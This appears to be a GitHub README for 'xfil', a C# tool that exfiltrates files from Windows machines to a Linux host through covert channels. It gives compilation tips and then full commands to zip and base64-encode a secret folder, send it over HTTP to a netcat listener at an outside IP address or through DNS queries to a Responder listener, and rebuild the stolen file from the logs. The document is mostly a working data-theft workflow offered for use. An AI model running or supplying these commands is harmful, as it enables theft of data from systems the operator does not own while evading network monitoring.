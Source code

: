 # xfil
Simple C# program to exfiltrate data/files through covert channels from windows to Linux.

## Compilation
* If you are targeting Windows 7 use *.NET Framework 3.5* when compiling.
* If you are targeting Windows 10 use *.NET Framework 4.0* when compiling. 
* To use the .exe you need the Ionic.zip.dll too, you can use BoxedAPP to merge them into a standalone .exe ( the release .exe is already merged with this .dll)
## Compiled binaries
Check the releases.


## Receive data
### Zip and Encode (REQUIRED)
```bash
# To exfiltrate files or folders you need to zip them and encode the zip in base64
xfil.exe /encode secret_folder secret.zip
```

### HTTP EXFIL
```bash
# Prepare listener to catch the base64
echo -e "HTTP/1.1 200 OK\r\n\r\n<h1>Host is live</h1>" | sudo nc -vl -p 9090
# Windows
xfil.exe /http http://192.168.1.53:9090/ secret.zip.b64
```

### DNS EXFIL
```bash
# Listener with responder
sudo ./responder.py  -i IP/iface
# Windows
xfil.exe /dns listener_ip  file.zip.b64
```

```bash
# After getting the xfil save all of the responder output and then parse it to the final exfiltrated file
cat responder_out.txt | awk -F" " '{print $10}' | awk -F"." '{print $2}' | tr -d '\n' | xxd -r -p | base64 -d >> secret.zip
```

### TO-DO
* Add DNS exfil **[ DONE ]**
* Add HTTP exfil **[ DONE ]**
* Add base64 encoding **[ DONE ]**
